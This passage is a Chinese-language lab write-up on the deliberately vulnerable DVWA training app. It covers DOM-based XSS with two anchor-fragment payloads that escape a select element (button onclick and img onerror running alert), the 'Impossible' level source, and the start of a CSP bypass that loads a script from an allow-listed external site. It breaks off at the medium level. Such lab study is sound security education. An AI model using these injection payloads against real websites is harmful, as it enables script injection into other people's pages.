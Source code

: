 

这里我们采用锚部分弹窗

页面的锚部分弹窗是一种网页交互元素。“锚（anchor）” 在网页中通常是指超链接定位的标记，用于在一个页面内快速定位到特定的位置。而 “弹窗（pop - up）” 是指在页面之上弹出的一个小窗口或者小框体，用于显示一些额外的信息，如提示框、警告框、模态对话框等。

```
#</select><button onclick=alert(1) >xss</button>
```

```
#</select><img src=1 onerror=alert(/xss/)>
```



### Security Impossible

看源代码，哈哈哈，做多错多。

```php
<?php
# Don't need to do anything, protection handled on the client side
?>
```



## CSP ByPass

Content Security Policy (CSP) Bypass

### Security Low

F12点开网络，

可以看到

![image-20250111205605223](../../_media/image-20250111205605223.png)

做了安全措施的白名单限制

可以去CSP中指定的任何一个网址进行写js脚本然后执行

这里直接用这个作为演示了

```
https://digi.ninja/dvwa/alert.js
```

显示`CSP Bypassed`



### Security Medium
